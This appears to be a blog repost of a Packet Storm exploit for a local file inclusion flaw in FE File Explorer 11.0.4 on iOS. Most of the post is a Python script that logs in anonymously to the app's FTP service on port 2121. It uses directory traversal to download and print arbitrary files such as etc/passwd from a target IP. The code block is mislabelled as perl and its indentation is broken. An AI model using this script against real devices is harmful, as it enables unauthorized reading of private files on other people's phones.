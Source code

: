 ```yaml
---
layout: post
title: FE File Explorer 11.0.4
date: 2022-09-07 03:37 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/fileexp.png)

There is a local file inclusion vulnerability present in version 11.0.4 of FE File Explorer.

  

```
SHA-256 | 9596719bde6a381ce9f18435b2517e8ecf2d1838ab031974d2c37d361f760254
```

```perl
    # Exploit Title: FE File Explorer 11.0.4 Local File inclusion
    # Date: Sep 6, 2022
    # Exploit Author: Chokri Hammedi
    # Vendor Homepage: https://www.skyjos.com/
    # Software Link:
    https://apps.apple.com/us/app/fe-file-explorer-file-manager/id510282524
    # Version: 11.0.4
    # Tested on: iPhone ios 15.6
    
    
    from ftplib import FTP
    import argparse
    
    help = " FE File Explorer Local File inclusion"
    parser = argparse.ArgumentParser(description=help)
    parser.add_argument("--target", help="Target IP", required=True)
    parser.add_argument("--file", help="File To Open eg: etc/passwd")
    
    args = parser.parse_args()
    
    
    ip = args.target
    port = 2121 # Default Port
    files = args.file
    
    
    
    ftpConnection = FTP()
    ftpConnection.connect(host=ip, port=port)
    ftpConnection.login();
    
    def downloadFile():
    
    ftpConnection.cwd('/../../../../../../../../../../../../../../../../')
            ftpConnection.retrbinary(f"RETR {files}", open('data.txt',
    'wb').write)
            ftpConnection.close()
            file = open('data.txt', 'r')
            print (f"[***] The contents of {files}\n")
            print (file.read())
    
    downloadFile()
```
{: .nolineno }

<br>  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)

